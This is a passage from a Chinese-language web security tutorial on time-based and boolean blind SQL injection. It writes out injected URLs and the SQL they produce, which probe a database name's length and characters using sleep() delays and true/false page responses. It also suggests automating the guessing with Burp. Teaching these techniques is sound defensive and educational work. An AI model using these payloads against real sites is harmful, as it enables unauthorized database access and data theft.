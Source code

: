 实际执行的SQL语句为：
```
SELECT * FROM users WHERE id='1' and if(length(database())=8,1,sleep(5))
```

**分析：**`id='1'`为真，紧接着执行后面的if语句判断当前数据库名称的字符数是不是8，是则立即返回结果，不是则延迟5秒返回结果。

**判断数据库名称**<br />当我们输入
```
http://xmtxsec.top/test.php/?id=1' and if(substr((select database()),1,1)='s',1,sleep(5))--+
```

实际执行的SQL语句为：
```
SELECT * FROM users WHERE id='1' and if(substr((select database()),1,1)='s',1,sleep(5))
```

**分析：**`id=1`永远为真，紧接着执行后面的if语句判断当前数据库名称的第一个字符是不是s，是则正常返回结果，不是则页面延迟5面返回结果。以此类推可以得到数据库名称。

**补充：**这里手动判断比较耗时间，可以使用BP进行爆破。
![image.png](../../_img/02-Web安全/01-基础知识/1664333072784-a91093a4-608f-4dd1-8354-eb3ed0a75af5.png)

**2.2.4、布尔盲注**<br />布尔盲注和时间盲注差不多，唯一的区别是布尔盲注没有使用`if`函数进行延迟回显，可以直接通过页面上返回的结果来判断对错。

设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`select aaa,bbb,ccc from tests where id = '$id'  `

**判断当前数据库名称的字符数**<br />当我们输入：
```
http://xmtxsec.top/test.php/?id=1' and length(database())=8--+
http://xmtxsec.top/test.php/?id=1' and length(database())=9--+
```

实际执行的SQL语句为：
```
select aaa,bbb,ccc from tests where id = '1' and length(database())=8
select aaa,bbb,ccc from tests where id = '1' and length(database())=9
```

**分析：**`id = '1'`为真，紧接着判断数据库名称的字符数，等于8是时页面返回正常，等于9时页面返回错误，说明数据库名称字符数为8。